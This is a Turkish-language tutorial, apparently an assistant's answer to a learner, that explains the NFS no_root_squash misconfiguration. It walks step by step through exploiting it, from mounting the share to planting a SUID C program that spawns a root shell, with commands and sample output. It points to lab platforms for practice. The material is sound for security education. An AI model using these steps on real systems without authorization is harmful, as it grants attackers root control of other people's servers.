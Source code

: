 ### **NFS ve `no_root_squash` Zafiyetini Anlamak**

Öncelikle temel kavramları netleştirelim.

- **NFS Nedir?** NFS (Ağ Dosya Sistemi), bir ağ üzerindeki kullanıcıların, sanki kendi bilgisayarlarındaymış gibi uzak bir sunucudaki dosyalara erişmelerini ve onları yönetmelerini sağlayan bir protokoldür. Linux/Unix sistemlerinde oldukça yaygındır.
- **Root Squashing Nedir? (Varsayılan ve Güvenli Durum)** Normalde, bir NFS sunucusu kendini korumak için "root squashing" mekanizmasını kullanır. Bu şu demektir: Uzak bir makineden `root` kullanıcısı, paylaşılan bir dizine erişmeye çalıştığında, NFS sunucusu bu `root` kullanıcısının yetkilerini sıradan, düşük yetkili bir kullanıcıya (genellikle `nfsnobody`) düşürür. Bu, `root` kullanıcısının sunucu üzerinde tehlikeli işlemler yapmasını engeller.
- **`no_root_squash` Nedir? (Tehlikeli ve Zafiyetli Durum)** Eğer NFS sunucusu `/etc/exports` dosyasında bir paylaşım için `no_root_squash` seçeneği ile yapılandırılmışsa, bu güvenlik mekanizması devre dışı bırakılır. Yani, uzak makinedeki `root` kullanıcısı, paylaşılan dizine bağlandığında **yine `root` olarak kalır**. İşte zafiyet tam olarak burada başlıyor.

Özetle, `no_root_squash` ayarı, NFS sunucusuna "Bana `root` olarak bağlanan istemciye güven, onun yetkilerini düşürme." demektir.

* * *

### **Zafiyetin Sömürülmesi: Adım Adım Senaryo**

Şimdi bu zafiyeti nasıl sömürebileceğimize dair pratik bir senaryo üzerinden gidelim. Hedef sistemde düşük yetkili bir kullanıcı (`lowuser`) olduğumuzu ve yetkimizi `root`'a yükseltmek istediğimizi varsayalım.

**Senaryo:**

- **Saldıran Makine IP:** `192.168.1.101`
- **Hedef (NFS Sunucusu) IP:** `192.168.1.105`

#### **Adım 1: Keşif - NFS Paylaşımlarını Bulma**

İlk işimiz, hedef sistemdeki NFS paylaşımlarını ve bunların yapılandırmasını kontrol etmektir. Bunun için hedef sistemde `/etc/exports` dosyasını okumaya çalışabiliriz veya kendi makinemizden `showmount` aracını kullanabiliriz.

**Hedef sistemde (düşük yetkili kullanıcı ile):**

Bash

```
cat /etc/exports
```

Çıktı şöyle olabilir:

```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
/home *(rw,sync,no_subtree_check,no_root_squash)
/tmp *(rw,sync,no_subtree_check)
```

Bu çıktıda altın değerinde bir bilgi var: `/home` dizini `no_root_squash` seçeneği ile paylaşılmış! Bu, bizim için potansiyel bir giriş noktası.

Eğer hedef sisteme erişimimiz yoksa, kendi makinemizden `showmount` komutunu kullanırız:

Bash

```
showmount -e 192.168.1.105
```

Çıktı:

```
Export list for 192.168.1.105:
/home *
/tmp  *
```

Bu komut bize hangi dizinlerin paylaşıldığını söyler ama `no_root_squash` ayarını direkt göstermez. Bu yüzden `/etc/exports` dosyasını okuyabilmek her zaman daha iyidir.

#### **Adım 2: Hazırlık - Yerel Dizin Oluşturma ve Bağlanma**

Şimdi, saldırgan makinemizde (kendi bilgisayarımızda) bu paylaşılan dizini bağlamak için bir klasör oluşturalım ve `mount` komutu ile bağlantıyı gerçekleştirelim.

Bash

```
# Kendi makinemizde bir bağlama noktası oluşturuyoruz
sudo mkdir /mnt/nfs_home

# Hedefteki /home dizinini kendi makinemizdeki /mnt/nfs_home dizinine bağlıyoruz
sudo mount -t nfs 192.168.1.105:/home /mnt/nfs_home
```

Bu komut sorunsuz çalışırsa, artık `/mnt/nfs_home` dizininde yapacağımız her değişiklik, aslında hedef sunucunun `/home` dizininde gerçekleşecektir. En önemlisi, bu işlemleri kendi makinemizde `sudo` ile yani `root` olarak yaptığımız için, `no_root_squash` sayesinde hedefte de `root` yetkileriyle işlem yapmış olacağız.

#### **Adım 3: Sömürü - SUID Bitli Zararlı Yazılımı Oluşturma**

Sırada, bize `root` kabuğu verecek basit bir C programı yazmak var. Bu program, çalıştırıldığında `/bin/bash` komutunu başlatacak. Sihir ise **SUID (Set User ID)** biti sayesinde olacak. Bir dosyanın SUID biti ayarlandığında, o dosyayı kim çalıştırırsa çalıştırsın, dosya sahibinin (bizim durumumuzda `root`'un) yetkileriyle çalışır.

**Saldırgan makinemizde, bağladığımız dizin içinde `shell.c` adında bir dosya oluşturalım:**

Bash

```
cd /mnt/nfs_home
nano shell.c
```

İçine şu kodu yazalım:

C

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);   // Kendini root yap
    setgid(0);   // Kendini root grubuna al
    system("/bin/bash -p"); // -p parametresi, efektif UID'yi korur ve root kabuğu açar
    return 0;
}
```

Şimdi bu C kodunu derleyelim:

Bash

```
gcc shell.c -o shell
```

Artık `shell` adında çalıştırılabilir bir dosyamız var. Şimdi ona SUID bitini ekleyelim ve sahipliğini `root` yapalım. Bu işlemleri kendi makinemizde `sudo` ile yapıyoruz:

Bash

```
sudo chown root:root shell
sudo chmod 4755 shell
```

- `chown root:root`: Dosyanın sahibini ve grubunu `root` yapar.
- `chmod 4755`: SUID bitini (`4`) ekler ve diğer kullanıcılara çalıştırma izni (`755`) verir.

Kontrol edelim:

Bash

```
ls -l shell
```

Çıktı şöyle görünmeli:

```
-rwsr-xr-x 1 root root 8328 Jun 11 14:30 shell
```

Buradaki `s` harfi, SUID bitinin başarıyla ayarlandığını gösterir.

#### **Adım 4: Yetki Yükseltme - Hedef Sistemde Shell'i Çalıştırma**

Tüm hazırlıklar tamam! `shell` dosyamız artık hedef sunucunun `/home` dizininde ve `root` sahipliğinde duruyor.

Şimdi hedef sisteme geri dönelim (düşük yetkili `lowuser` hesabımızla) ve bu dosyayı çalıştıralım:

Bash

```
# Hedef sistemdeyiz
cd /home
./shell
```

**Ve sonuç:**

Bash

```
bash-5.0# whoami
root
bash-5.0# id
uid=0(root) gid=0(root) groups=0(root),1000(lowuser)
```

Tebrikler! `lowuser` olarak başlattığımız `shell` dosyası, SUID biti sayesinde `root` yetkileriyle çalıştı ve bize bir `root` kabuğu verdi. Artık hedef sistemde tam kontrole sahibiz.

* * *

### **Kaynaklar ve Pratik Yapma**

Bu konuyu pekiştirmek için aşağıdaki kaynakları kullanabilirsin:

- **Lab Ortamları (Şiddetle Tavsiye Edilir):**
    
    - **TryHackMe:** Zaten başladığın yer. "Wgel CTF" ve "Kenobi" odaları gibi odalarda bu zafiyetle karşılaşabilirsin.
    - **Hack The Box:** Birçok makinede NFS zafiyetleri bulunur. Başlangıç seviyesi makinelerde sıkça rastlanır.
    - **VulnHub:** Birçok zafiyetli sanal makine imajı barındırır. Kendi yerel laboratuvarını kurup pratik yapabilirsin. Örnek: "Kioptrix: Level 1" klasik bir başlangıçtır.
- **Teorik Bilgi ve Araçlar:**
    
    - **Kitap:** "Linux Privilege Escalation for OSCP & Beyond" gibi kaynaklar bu ve benzeri birçok tekniği detaylıca anlatır.
    - **Repo:** **PayloadsAllTheThings** GitHub deposu, yetki yükseltme teknikleri için harika bir referanstır. Özellikle [NFS bölümü](https://www.google.com/search?q=https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%2520and%2520Resources/Linux%2520-%2520Privilege%2520Escalation.md%23nfs) çok faydalıdır.
    - **Makaleler:** "NFS `no_root_squash` privilege escalation" aramasıyla sayısız blog yazısı ve makaleye ulaşabilirsin.

&nbsp;